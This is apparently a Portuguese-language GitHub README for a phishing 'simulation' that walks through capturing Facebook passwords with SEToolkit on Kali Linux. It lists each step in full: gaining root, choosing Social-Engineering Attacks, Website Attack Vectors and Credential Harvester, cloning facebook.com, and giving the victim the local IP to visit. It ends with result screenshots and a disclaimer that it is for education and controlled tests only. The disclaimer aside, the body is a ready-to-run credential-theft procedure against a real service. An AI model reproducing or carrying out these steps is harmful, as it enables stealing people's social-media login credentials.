 # Phishing para Captura de Senhas do Facebook

### 🛠️ Ferramentas

- Kali Linux  
- SEToolkit

---

### ⚙️ Configurando o Phishing no Kali Linux

> Alterar a placa de rede para modo **bridge** (ponte).

1. **Acesso root:**
   ```bash
   sudo su
   ```
   (Digite a senha do administrador)

2. **Iniciando o SEToolkit:**
   ```bash
   setoolkit
   ```

3. **Tipo de ataque:**
   ```
   1) Social-Engineering Attacks
   ```

4. **Vetor de ataque:**
   ```
   2) Website Attack Vectors
   ```

5. **Método de ataque:**
   ```
   3) Credential Harvester Attack Method
   ```

6. **Clonagem de site:**
   ```
   2) Site Cloner
   ```

7. **Fornecer o site a ser clonado:**
   ```
   https://www.facebook.com/
   ```

8. **Obter o IP da máquina:**
   ```bash
   ifconfig
   ```

9. **URL que a vítima deve acessar:**
   ```
   http://192.168.0.210
   ```

---

### 📸 Resultados

![Imagem 1](https://github.com/maxhumberto/simulacao_Phishing/blob/1deb7ea09eca04fe9298a3c0910abe96413ba2fa/WhatsApp%20Image%202025-05-22%20at%2016.53.26%20(1).jpeg)
![Imagem 2](https://github.com/maxhumberto/simulacao_Phishing/blob/9be269ec3a1c123593c958de2b5e5b8beb20b722/WhatsApp%20Image%202025-05-22%20at%2016.53.26.jpeg)
**Atenção:** Este conteúdo é apenas para fins **educacionais e de testes em ambientes controlados**. Qualquer uso indevido pode configurar crime cibernético.
